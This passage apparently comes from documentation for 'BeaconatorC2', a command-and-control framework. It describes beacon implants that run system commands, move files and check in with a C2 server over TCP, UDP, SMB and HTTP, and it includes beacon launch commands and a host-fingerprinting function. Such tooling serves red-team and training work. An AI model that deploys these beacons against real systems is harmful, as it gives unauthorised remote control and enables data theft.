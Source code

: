 **Status Monitoring:**
- Real-time receiver health checks
- Connection count tracking
- Data transfer statistics
- Per-receiver beacon counting

## Multi-Protocol Beacon Architecture

### **Beacon Implementations**

BeaconatorC2 provides multiple beacon implementations supporting diverse communication protocols and deployment scenarios.

#### **Python Beacon (`beacons/python_beacon.py`)**

**Multi-Protocol Support:**
- **TCP Communication**: Direct socket-based communication with persistent connections
- **UDP Communication**: Stateless datagram communication with timeout handling
- **SMB Communication**: Named pipe communication supporting Windows (win32pipe) and Unix (FIFO)
- **HTTP Communication**: RESTful communication using root path `/` endpoint with GET/POST support

**Protocol Selection:**
```python
python beacon.py --protocol http --server 192.168.1.100 --port 8080 --endpoint /
python beacon.py --protocol tcp --server 192.168.1.100 --port 5074
python beacon.py --protocol udp --server 192.168.1.100 --port 5075
python beacon.py --protocol smb --server 192.168.1.100 --pipe BeaconatorC2_5074
```

**Core Capabilities:**
- **Command Execution**: System command execution with output capture and timeout handling
- **File Transfer**: Upload/download operations with protocol-specific implementations
- **Registration System**: Automatic beacon registration with unique agent ID generation
- **Heartbeat Monitoring**: Configurable check-in intervals with server communication
- **Error Handling**: Comprehensive error handling with protocol-specific recovery

**Agent ID Generation:**
```python
def generate_agent_id(self):
    system_info = f"{platform.node()}{platform.system()}{username}{mac_address}{script_path}"
    return hashlib.md5(system_info.encode()).hexdigest()[:8]
```

#### **Simple Python Beacon (`beacons/simple_python_beacon.py`)**

**Lightweight Design:**
- **Minimal Dependencies**: Reduced external library requirements for broad compatibility
- **Basic Command Set**: Essential command execution and communication capabilities
- **Simplified Protocol Support**: Focus on TCP communication with optional protocol extensions
- **Reduced Footprint**: Smaller file size and memory consumption for constrained environments

### **Protocol-Specific Implementations**
